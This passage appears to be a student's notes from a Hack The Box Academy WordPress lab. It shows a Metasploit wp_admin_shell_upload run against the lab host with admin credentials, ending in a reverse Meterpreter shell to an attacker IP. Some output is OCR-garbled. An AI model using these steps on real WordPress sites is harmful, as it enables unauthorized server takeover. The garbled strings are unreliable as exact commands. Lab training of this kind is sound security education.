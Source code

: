 to Select the module 
```bash
msf5 > use 0

msf5 exploit(unix/webapp/wp_admin_shell_upload) >
```

next use the `show options` to see what we need to set up:- 
```bash
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.16.8z4444
[*] Authenticating with WordPress using admin:Winter202@...
[+] Authenticated with WordPress
[*] Uploading payload...
[*] Executing the payload at /wp—content/plugins/YtyZGFIhax/uTvAAKrAdp.php...
[*] Sending stage (38247 bytes) to blog.inlanefreight.com
[*] Meterpreter session 1 opened
[+] Deleted uTvAAKrAdp.php

meterpreter > getuid
Server username: www—data (33)
```


### Reference
-------------------------------

mrb3n & Cry0l1t3. **Hacking WordPress**. [online] Hack The Box Academy. Available at: [HackTheBox ~ Academy](https://academy.hackthebox.com/module/details/17) <*Accessed 26 January 2024, 9 AM*>. 

PortSwigger. **Brute-forcing passwords with Burp Suite**. [video] Available at: [YouTube](https://www.youtube.com/watch?v=bNLihWA_Ygw)  <*Accessed 26 January 2024, 9 AM*>.

----------------
